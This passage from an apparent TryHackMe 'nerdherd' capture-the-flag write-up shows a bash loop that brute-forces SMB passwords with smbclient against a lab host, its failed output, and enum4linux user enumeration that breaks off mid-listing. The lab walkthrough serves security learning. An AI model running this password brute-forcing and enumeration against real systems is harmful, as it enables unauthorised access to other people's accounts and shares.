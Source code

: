 ```shell
        for pass in `cat passwords.txt`;
        do
                echo $pass | smbclient -U $user \\\\10.10.62.119\\nerdherd_classified ;
        done
done
```
### Executing the script
```console
local@local:~/Documents/tryhackme/nerdherd$ bash brute.sh 
Enter WORKGROUP\cibartowski's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
Enter WORKGROUP\cibartowski's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
Enter WORKGROUP\cibartowski's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
Enter WORKGROUP\cibartowski's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
Enter WORKGROUP\cibartowski's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
............
...........
```
But there was no any success. So, I turned my focus on the webserver to check if I missed anything but I didnot find that much on the webserver too.
Then after a while, I began to think if the usernames that I had are not the real username on the box.

### Enumeration users using enum4linux
```console
local@local:~/Documents/tryhackme/nerdherd$ /opt/enum4linux/enum4linux.pl -U 10.10.62.119
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Nov  5 13:55:16 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.62.119
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.62.119    |
 ==================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ===================================== 
|    Session Check on 10.10.62.119    |
 ===================================== 
[+] Server 10.10.62.119 allows sessions using username '', password ''

 =========================================== 
|    Getting domain SID for 10.10.62.119    |
 =========================================== 
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ============================= 
|    Users on 10.10.62.119    |
```
